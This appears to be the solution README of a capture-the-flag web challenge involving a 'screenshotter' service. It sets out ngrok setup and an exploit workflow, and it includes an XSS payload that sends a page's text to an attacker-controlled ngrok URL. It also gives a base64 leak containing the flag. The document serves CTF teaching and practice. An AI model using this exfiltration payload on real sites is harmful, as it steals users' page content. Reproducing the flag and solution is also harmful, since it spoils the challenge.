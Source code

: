 # Solution

The [`DO_NOT_ACCESS`](/DO_NOT_ACCESS) folder contains the solution when you checkout the `solution` branch with `git checkout solution`.

Dependencies:

- for python, check the `requirements.txt`. can be installed with `pip install -r requirements.txt`
- install `tesseract`. For mac for example `brew install tesseract`

Execute the exploit:

1. Install ngrok and run `ngrok http 1234`
2. Take notes of your personal ngrok URL like `f4b2152b6973.ngrok.io`
3. Adjust the base64 encoded XSS payload on `xss.html`: `echo "document.location='http://f4b2152b6973.ngrok.io/?leak='+btoa(document.body.innerText);//" | base64`
4. Adjust the ngrok URL in `attack.html`
5. Adjust the `NGROK_URL` and `SCREENSHOTTER` URL in `exploit.py`
6. Run local webserver on port 1234, like `php -S 127.0.0.1:1234`
7. run `python exploit.py`
8. wait for the exploit...
9. You should receive a leak on the local webserver `/?leak=c2NyZWVuc2hvdHRlciBERU1PIGFjdGl2aXR5IGZsYWdnZXIgTG9nb3V0CiBDcmVhdGUKeCBvbmxvYWQ9ZXZhbChhdG9iKGBaRzlqZFcxbGJuUXViRzlqWVhScGIyNDlKMmgwZEhBNkx5OWpjMk5uTG1SbFFHWTBZakl4TlRKaU5qazNNeTV1WjNKdmF5NXBieTgvYkdWaGF6MG5LMkowYjJFb1pHOWpkVzFsYm5RdVltOWtlUzVwYm01bGNsUmxlSFFwT3k4dkNnPT1gKSkKQ1NDR3tURVNURkxBR1RFU1RGTEFHVEVTVEZMQUd9CmZsYWc=`. decode the base64 encoded page and find the leaked flag.
